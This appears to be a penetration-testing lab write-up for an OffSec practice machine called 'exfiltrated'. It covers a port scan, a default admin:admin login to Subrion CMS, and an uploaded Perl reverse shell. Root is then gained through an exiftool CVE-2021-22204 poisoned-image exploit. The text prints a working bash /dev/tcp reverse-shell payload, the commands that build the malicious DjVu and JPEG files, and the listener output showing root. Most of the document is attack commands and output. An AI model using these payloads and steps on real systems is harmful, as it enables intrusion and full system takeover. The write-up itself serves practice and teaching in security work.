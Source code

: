 `└─$ autonmap -H 192.168.190.163 -t all`  

`Running all scans on 192.168.190.163`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT   STATE SERVICE`
`22/tcp open  ssh`
`80/tcp open  http`

Check what's running on port 80

![[Pasted image 20240208001443.png]]

Add exfiltrated.offsec to /etc/hosts

![[Pasted image 20240208001517.png]]

Turns out there is a weak password, we can sign in with admin:admin

![[Pasted image 20240208001549.png]]

In the top left corner we see it's Subrion CMS
![[Pasted image 20240208001700.png]]


![[Pasted image 20240208001739.png]]

![[Pasted image 20240208001930.png]]

Try a few different ways to upgrade the shell

`$ python -V`

`$ perl -v`

`This is perl 5, version 30, subversion 0 (v5.30.0) built for x86_64-linux-gnu-thread-multi`
`(with 50 registered patches, see perl -V for more detail)`

`Copyright 1987-2019, Larry Wall`

`Perl may be copied only under the terms of either the Artistic License or the`
`GNU General Public License, which may be found in the Perl 5 source kit.`

`Complete documentation for Perl, including FAQ lists, should be found on`
`this system using "man perl" or "perldoc perl".  If you have access to the`
`Internet, point your browser at http://www.perl.org/, the Perl Home Page.`

`$ cd /tmp`

Looks like perl is the answer

Downloaded the perl reverse shell from here: https://pentestmonkey.net/tools/web-shells/perl-reverse-shell

Change the IP in it, uploaded and executed

![[Pasted image 20240208003117.png]]

`└─$ nc -nlvp 1234`
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:1234`
`Ncat: Listening on 0.0.0.0:1234`
`Ncat: Connection from 192.168.190.163:60484.`
 `05:28:39 up 47 min,  0 users,  load average: 0.00, 0.00, 0.00`
`USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT`
`Linux exfiltrated 5.4.0-74-generic #83-Ubuntu SMP Sat May 8 02:35:39 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux`
`uid=33(www-data) gid=33(www-data) groups=33(www-data)`
`/`

Was able to upgrade it with `$ python -c 'import pty; pty.spawn("/bin/bash")'

`/usr/sbin/apache: 0: can't access tty; job control turned off`
`$ python -c 'import pty; pty.spawn("/bin/bash")'`
`/usr/sbin/apache: 1: python: not found`
`$ python3 -c 'import pty; pty.spawn("/bin/bash")'`
`www-data@exfiltrated:/$` 

After sorting through all the unnecessary trash from linpeas, we find the crontab output
![[Pasted image 20240208004312.png]]

It scans the uploads folder for any new images and runs the image through exiftool to get the metadata.

![[Pasted image 20240208004448.png]]

![[Pasted image 20240208004507.png]]

![[Pasted image 20240208004546.png]]

To make the poisoned image file you need exiftool version 12.23 and no later

We can get this from https://github.com/exiftool/exiftool

Pick releases on the right hand side of the github page
![[Pasted image 20240208102007.png]]

Click the compare drop down and pick the version before the one you want so 12.22

![[Pasted image 20240208102052.png]]

![[Pasted image 20240208102146.png]]

Click the button to copy the SHA for the 12.23 commit

![[Pasted image 20240208102249.png]]
How to compile and install from the readme 

![[Pasted image 20240208102451.png]]
* to execute the last command you need to use sudo

![[Pasted image 20240208102610.png]]

https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/
This page is a guide how to make the file

`sudo apt install djvulibre-bin

Make a payload file like the guide shows but with a reverse shell instead

`└─$ cat payload`  
`(metadata "\c${system('bash -c \"bash -i >& /dev/tcp/192.168.45.235/443 0>&1\"')};")`

Compress it
`bzz payload payload.bzz`

Make the djvu file
`djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

Make the config file
`└─$ cat configfile`
`%Image::ExifTool::UserDefined = (`
    `# All EXIF tags are added to the Main table, and WriteGroup is used to`
    `# specify where the tag is written (default is ExifIFD if not specified):`
    `'Image::ExifTool::Exif::Main' => {`
        `# Example 1.  EXIF:NewEXIFTag`
        `0xc51b => {`
            `Name => 'HasselbladExif',`
            `Writable => 'string',`
            `WriteGroup => 'IFD0',`
        `},`
        `# add more user-defined EXIF tags here...`
    `},`
`);`
`1; #end%`

run the exiftool to inject the malicious metadata

`└─$ exiftool -config configfile '-HasselbladExif<=exploit.djvu' sample.jpg`
    `1 image files updated`

Copy the bad image to the uploads folder from the crontab script
`www-data@exfiltrated:/$ cd /var/www/html/subrion/uploads`
`cd /var/www/html/subrion/uploads`
`www-data@exfiltrated:/var/www/html/subrion/uploads$ wget 192.168.45.235/sample.jpg`

Setup the listener and wait for it to run

`└─$ nc -nlvp 443` 
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:443`
`Ncat: Listening on 0.0.0.0:443`

After maybe a minute - root obtained

`Ncat: Connection from 192.168.190.163:33210.`
`bash: cannot set terminal process group (51352): Inappropriate ioctl for device`
`bash: no job control in this shell`
`root@exfiltrated:~#` 


